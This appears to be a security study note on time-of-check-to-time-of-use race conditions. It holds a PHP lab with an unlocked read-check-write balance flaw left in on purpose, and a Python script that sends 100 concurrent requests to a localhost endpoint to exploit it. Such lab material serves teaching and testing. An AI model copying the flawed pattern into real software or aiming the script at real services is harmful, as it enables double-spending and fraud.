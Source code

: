 ## Race Condition - TOCTOU

**Reference**
```
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
https://defuse.ca/race-conditions-in-web-applications.htm
https://sakurity.com/blog/2015/05/21/starbucks.html?source=post_page---------------------------
```

**Logic in Visual**

![enter image description here](https://defuse.ca/images/racecondition.png)


[Image Source](https://defuse.ca/race-conditions-in-web-applications.htm)

**Lab using database**
```
https://github.com/doantranhoang/php-race-condition-example
```
**Lab using fopen** 

```
#racer.php
<?php 

function racer(){
	$file=fopen('file.txt', 'r');
	echo "Time of File open : ".microtime(true)."\r\n";
	$data=fread($file, filesize('file.txt'));
	echo "Time of File read : ".microtime(true)."\r\n";
	echo "Initial data in file.txt : ".$data."\r\n";

	
	if($data>1000)
	{   
		echo "Time of Check : ".microtime(true)."\r\n";
		$newdata=$data-1000;
		$file1=fopen('file.txt', 'w');
		// sleep(2);
		fwrite($file1, $newdata);
		echo "Time of Use : ".microtime(true)."\r\n";
		fclose($file1);

		$file2=fopen('intruder.txt','a');
		$intuder_data=fread($file2, filesize('intruder.txt'));
		$add_data=$intuder_data."1000 - ";
		fwrite($file2, $add_data);
		fclose($file2);
	}
	else {
		
		echo "Insufficient Fund! \r\n";
	}
}

if (isset($_GET['test'])) {
	racer();
	$file4=fopen('file.txt', 'r');
	$dat=fread($file4, filesize('file.txt'));
	echo "Final Data in data.txt : ".$dat."\r\n";
	$file3=fopen('intruder.txt','r');
	$intuder_data=fread($file3, filesize('intruder.txt'));
	echo "Final Data in intruder.txt : ".$intuder_data."\r\n";
	fclose($file3);
}
 ?>

#intruder.txt
Blank

#file.txt
20000
```
**Multi Thread Intruder** 
```
import requests
from threading import Thread

def intruder(i):
	response=requests.get('http://localhost/race_the_web/?uid=1&amt=100')
	print "Thread #{} - {}".format(i,response.text)

for i in range(100):
	t=Thread(target=intruder,args=(i,))
	t.start()
```
**Testing with Burp Suite Pro**
```
https://securingtomorrow.mcafee.com/business/testing-race-conditions-web-applications/
```
